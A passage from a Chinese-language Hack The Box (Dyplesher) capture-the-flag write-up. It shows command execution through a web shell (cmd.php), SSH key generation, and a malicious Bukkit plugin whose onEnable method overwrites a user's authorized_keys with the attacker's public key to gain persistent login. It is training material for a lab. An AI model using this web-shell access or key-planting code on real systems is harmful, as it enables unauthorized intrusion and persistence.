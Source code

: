 当前的用户为MinatoTW，看看`/home/MinatoTW`下有什么，cmd.php?0=ls%20-al%20/home/MinatoTW ：

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p1.ssl.qhimg.com/t013e79012f48b5dab2.png)

发现`.ssh`目录，在目录下有`authorized_keys`，那只要上传我们自己的公钥就可以免密登录了：

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p1.ssl.qhimg.com/t01b8a0de7ad19ca063.png)

我本机的`.ssh`目录下没有ssh密钥，所以先执行ssh-keygen创建密钥对：

```
ssh-keygen -t rsa -b 4096
```

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p1.ssl.qhimg.com/t0165a11ed76e69104f.png)

创建后目录下会多出两个文件`id_rsa`和`id_rsa.pub`，前者是私钥，后者是公钥：

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p3.ssl.qhimg.com/t013c204f1a375bd808.png)

我们需要将公钥写入到目标主机的`authorized_keys`文件中，就能实现免密登录：

```
package htb.dyplesher.sshplugin;

import java.io.BufferedReader;
import java.io.FileWriter;

import org.bukkit.Bukkit;
import org.bukkit.plugin.java.JavaPlugin;

public class sshplugin extends JavaPlugin `{`
    @Override
    public void onEnable() `{`
        getLogger().info("onEnable is called!");

        try `{`
            FileWriter fw = new FileWriter("/home/MinatoTW/.ssh/authorized_keys");
            fw.write("ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAACAQCu/ObL6IdSkC6UU2xkZR3frEofJxER7tnjG59fa2Zk98m1Ib/[......]/e01IYwqeAFXhW4wvezG/Icbf2iuTOHggEdnHsBDBL/upYw== kali@kali");
            fw.close();
            getLogger().info("Successfully wrote to the file");
        `}` catch (Exception e) `{`
            getLogger().info(e.toString());
        `}`
    `}`
    @Override
    public void onDisable() `{`
        getLogger().info("onDisable is called!");
    `}`
`}`
```
